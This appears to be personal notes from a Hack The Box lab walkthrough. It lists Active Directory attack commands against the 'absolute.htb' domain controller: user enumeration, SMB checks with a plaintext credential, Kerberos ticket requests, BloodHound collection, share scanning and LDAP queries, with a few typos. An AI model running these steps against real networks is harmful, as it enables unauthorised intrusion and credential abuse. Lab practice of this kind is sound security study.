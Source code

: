 - Kerbrute
   - set sys date to domain date
	```
	sudo ntpdate dc.absolute.htb 
	```
   - check user valid with users.txt
	```
	./kerbute userenum --dc dc.absolute.htb -d absolute.htb -o users.txt
	```
  - check user validate (-k to use Kerberos)
	```
	cme smb 10.10.11.181 -k -u d.klay -p Darkmoonsky248girl
    ```
  - generate access token
   ```
	getTGT.py absolute.htb/d.klay
	 ```
   - blood hound scrape
   ```
   KRB5CCNAME=d.klay.ccache ./bloodhound.py -k -dc dc.absolute.htb -ns 10.10.11.181 -c all -d absolute.htb -u d.klay
     ```
   - Scan shares
   ```
   cme smb 10.10.11.181 -u d.klay -p Darkmoonsky248girl -k --shares
     ```
   - ldapsearch
   ```
   ldapsearch -H ldap://dc.absolute.htb -Y GSSAPI -s base

   ldapsearch -H ldap://dc.absolute.htb -Y GSSAPI -b "cn=users,dc=absolute,dc=htb" "user" "description"
     ```
   - Kerbrute
   ```
   KRBSCCNAME=/home/accesstoken.ccache ./smbclient.py -k absolute.htb/user_goview@dc.absolute.htb -target -ip 10.10.11.181
     ```
   